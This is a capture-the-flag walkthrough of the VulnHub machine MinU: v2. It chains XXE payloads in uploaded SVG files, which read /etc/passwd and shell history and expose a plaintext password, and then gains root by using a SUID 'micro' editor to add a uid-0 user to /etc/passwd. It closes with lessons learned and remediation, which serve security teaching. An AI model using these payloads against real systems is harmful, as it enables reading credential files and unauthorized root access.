





# MinU: v2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Easy |
| **OS** | Linux (Alpine-based) |
| **Goal** | root flag.txt |
| **Source** | [HackingArticles](https://www.hackingarticles.in/minu-v2-vulnhub-walkthrough/) |

## Attack Summary

MinU: v2 is a beginner-level boot-to-root machine that chains three distinct weaknesses: an SVG upload form vulnerable to XML External Entity (XXE) injection, credential leakage through shell history exposed via XXE, and privilege escalation using a SUID-bit text editor (`micro`) that allows overwriting `/etc/passwd`. No browser-facing services run on port 80; the HTTP server is actually on port 3306.

## Methodology

1. Host discovery — Netdiscover
2. Service enumeration — Nmap
3. Directory brute-force — dirb
4. XXE via SVG upload to read `/etc/passwd`
5. XXE to read `/.ash_history` and extract credentials
6. SSH login as `employee`
7. SUID `micro` editor abuse to inject root user into `/etc/passwd`

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports:
- `22/tcp` — SSH
- `3306/tcp` — HTTP (unusual; the web server is bound to the MySQL default port)



## Step 2: Web Directory Enumeration

The index page at `http://192.168.1.101:3306` yields nothing useful. Run dirb targeting HTML files:

```bash
dirb http://192.168.1.101:3306 -X .html
```

A single HTML page is found that hosts a file upload form. The form only accepts `.svg` files.



## Step 3: XXE via SVG Upload — Read /etc/passwd

Create a malicious SVG file that uses an XML external entity to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <text x="10" y="20">&xxe;</text>
</svg>
```

Save it as `xxe.svg` and upload it. View the page source of the result to read the file contents. The `/etc/passwd` file reveals users including `employee`.



## Step 4: XXE via SVG Upload — Read Shell History

The target uses `/bin/ash` (Alpine Linux). The history file is `/.ash_history`. Update the XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///.ash_history">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <text x="10" y="20">&xxe;</text>
</svg>
```

Upload `history.svg`. The shell history reveals the following credentials:

```
employee:superultrapass3
```



## Step 5: SSH Login

```bash
ssh employee@192.168.1.101
# Password: superultrapass3
```

## Step 6: Privilege Escalation via SUID micro Editor

Search for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The output includes `/usr/bin/micro` — a text editor with the SUID bit set. This allows writing to files owned by root.

Generate a password hash on the attacker machine or locally:

```bash
openssl passwd -1 -salt user3 pass123
# $1$user3$<HASH>
```

Use `micro` to append a new root-equivalent user to `/etc/passwd`:

```bash
cat /etc/passwd | /usr/bin/micro
# In micro: append the following line, then save with Ctrl+S, exit with Ctrl+Q
# test:$1$user3$<HASH>:0:0:root:/root:/bin/ash
```

Switch to the new user and read the flag:

```bash
su test
# Password: pass123
id
# uid=0(root) gid=0(root) groups=0(root)
cd /root
cat flag.txt
```



## Lessons Learned

- SVG files are XML documents. Any upload feature that processes SVG (including rendering or parsing) is potentially vulnerable to XXE if the parser is not configured to prohibit external entity resolution.
- Shell history files often contain plaintext commands including passwords typed directly on the command line. Applications that can read arbitrary files (via XXE, LFI, SSRF) will expose these.
- Setting the SUID bit on editors, scripting interpreters, or any program that writes to the filesystem grants effective root write access to the SUID owner's files.

## Remediation

| Vulnerability | Fix |
|---|---|
| XXE in SVG upload | Disable external entity processing in the XML parser (e.g., `LIBXML_NOENT` disabled); convert SVG to a safe format server-side |
| Credentials in shell history | Never type passwords directly on the command line; use environment variables or credential files; clear history with `history -c` |
| SUID on text editor | Remove the SUID bit: `chmod u-s /usr/bin/micro`; audit all SUID binaries regularly with `find / -perm -4000` |
| Sensitive credential file exposure | Restrict `/.ash_history` permissions; run the web service as an unprivileged user with no access to home directories |
